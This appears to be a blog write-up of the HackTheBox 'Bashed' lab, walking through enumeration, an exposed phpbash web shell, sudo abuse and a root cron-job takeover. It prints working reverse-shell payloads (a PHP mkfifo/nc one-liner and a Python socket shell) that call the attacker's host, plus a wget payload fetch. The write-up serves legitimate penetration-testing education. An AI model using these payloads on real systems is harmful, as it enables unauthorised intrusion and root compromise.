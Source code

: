```yaml
---
layout: post
title: 'HackTheBox - Bashed'
date: 2018-04-29
author: Casey Mullineaux
cover: '/images/htb/bashed/htb-bashed-01-1.png'
tags: hackthebox
---
```


_Bashed_ highlights the importance of having a separate environment for development and production.

In this challenge, a developer creating a new web application uses a production web server for the development environment. I demonstrate abusing the artifacts left behind by the developer in order to compromise the system.
    
# Hacking the box

1. [Enumeration](#enum)
2. [Exploitation](#exploit)
3. [Privilege escalation](#privesc)
4. [Deconstructing the hack](#deconstruct)

# <a name="enum"></a>Enumeration

Starting out with a standard nmap scan, I find website on port 80

```bash
root@kali:~/htb/bashed# nmap -sC -sV -oA bashed 10.10.10.68

Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-09 13:18 AEDT
Nmap scan report for 10.10.10.68
Host is up (0.32s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

* **-sC** run default scripts
* **-sV** probe open ports to determine service info
* **-oA** output all formats

I poke around on the website and it looks like a developer blog for something called *phpbash*. I click the only post from a user called **development**, and it gives a little more information on what this phpbash thing is.

![htb-bashed-01](/images/htb/bashed/htb-bashed-01.png)

The image on the blog post shows what looks to be a phpshell located at `/uploads/phpbash.php`. I smack that into my browser, but no luck.

Next I fire up `gobuster` and go hunting for some more directories.

```bash
gobuster -u 10.10.10.68 -w /usr.share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![htb-bashed-02](/images/htb/bashed/htb-bashed-02.png)

I get a couple of hits. Considering the blog post explains that phpbash was developed on this exact machine, I figured the `/dev` directory would be a good place to start.

I browse to `/dev` and hit the jackpot.

![htb-bashed-03](/images/htb/bashed/htb-bashed-03.png)

Loading up `/dev/phpbash.php` gives me an interactive web shell.

![htb-bashed-04](/images/htb/bashed/htb-bashed-04.png)

From here i'm able to quickly grab the user flag located in `/home/arraxel/`
<p class="success">user flag obtained!</p>

# <a name="exploit"></a>Exploitation
To move on, i'm going to want a proper shell.

Referencing once again the trusty [Pentest Monkey Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), I create myself a quick and dirty php script that'll send a reverse shell, and save as `totallylegit.php`

```php
<?php echo exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.44 1234 >/tmp/f'); ?>
```

Staring a simple Python webserver allows me to serve the php shell over HTTP.

```bash
python -m SimpleHTTPServer 80
```

In the phpbash shell, I browse to a public readable directory that the `www-data` user can write to - in this case `/var/www/html/uploads` - and download my script to the machine.

```bash
wget 10.10.15.44/totallylegit.php
```

Browsing to `/uploads/totallylegit.php` initiates a shell.

![htb-bashed-05-1](/images/htb/bashed/htb-bashed-05-1.png)

# <a name="privesc"></a> Privilege escalation

I run ```sudo -l``` to see what my current user can do.
```bash
$ sudo -l                                                                                                                 
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

It appears I can run any command as **scriptmanager** without a password. 

I enumerate the system a little, and find `/scripts` is owned by the user **scriptmanager**.

![htb-bashed-06](/images/htb/bashed/htb-bashed-06.png)

Trying to see what's inside the `/scripts` directory, I attempt to give myself a shell as the **scriptmanager**  user - but get an error.

```bash
$ su -u scriptmanager /bin/sh -i
su: must be run from a terminal
```

The `su` command must be run from a terminal; so lets get one.
```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@bashed:/var/www/html/uploads$ sudo -u scriptmanager /bin/sh -i
sudo -u scriptmanager /bin/sh -i
$ whoami
whoami
scriptmanager
$ 
```

From here I can now access the `/scripts/` directory.

```bash
scriptmanager@bashed:/scripts$ ls -l
ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 55 Feb  8 19:38 test.py
-rw-r--r-- 1 root          root          12 Feb  8 19:37 test.txt
```

What stands out to me here, is that `test.py` has read/write permissions set for the **scriptmanager** user. 

Let's take a look at the contents of `test.py`
```bash
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

The script itself simply opens a file handler, and writes 'testing 123!' to test.txt. 
The interesting bit is that the resulting `test.txt` is owned by the **root** user. This indicates that `test.py` is being executed by **root** somehow. 

Using the Pentest Cheat Sheet once again, I replace the contents of `test.py` with a python reverse shell.

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.15.44",1337));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Less than a minute later, I get my root shell calling home.

```bash
root@kali:~/htb/bashed# nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.15.44] from (UNKNOWN) [10.10.10.68] 58032
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
```

<p class="success">root flag obtained!</p>

I checked out crontab and discovered why root is executing the `test.py` script.
```bash
# crontab -l
* * * * * cd /scripts; for f in *.py; do python "$f"; done
# 
```

There's a cronjob that runs every minute and executes all python scripts in the /scripts directory.

# <a name="deconstruct"></a> Deconstructing the hack

There's not really much to deconstruct in this one. I was able to gain initial access to the remote system by accessing a php shell that was being developed on the machine, and was left externally exposed. 

The key takeaway here is: 
<p class="warning">Don't use your public facing production infrastructure as a development environment!</p>

In a modern world where low-cost cloud infrastructure can be quickly spun up and torn down, and you only pay for what you use, there isn't an excuse for not having a separate environment for developing your software. Keeping production separeate from development can help to ensure buggy code doenst lead to compromise of your network.
